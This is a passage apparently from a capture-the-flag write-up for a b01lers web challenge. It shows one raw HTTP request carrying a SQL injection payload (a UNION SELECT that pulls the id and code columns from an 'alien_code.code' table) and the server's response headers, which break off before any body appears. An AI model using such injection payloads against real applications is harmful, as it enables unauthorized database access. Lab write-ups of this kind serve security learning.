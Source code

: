 ```
* `id`;
* `code`.

The content of the table can be retrieved.

```
GET /query?search=amazonis_planitia%20UNION%20SELECT%20id%2C%20code%20FROM%20alien_code.code&{}&_=1584147989793 HTTP/1.1
Host: web.ctf.b01lers.com:1001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json; charset=utf-8
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://web.ctf.b01lers.com:1001/

HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 4365
Server: Werkzeug/1.0.0 Python/3.7.3
Date: Sun, 15 Mar 2020 13:48:18 GMT
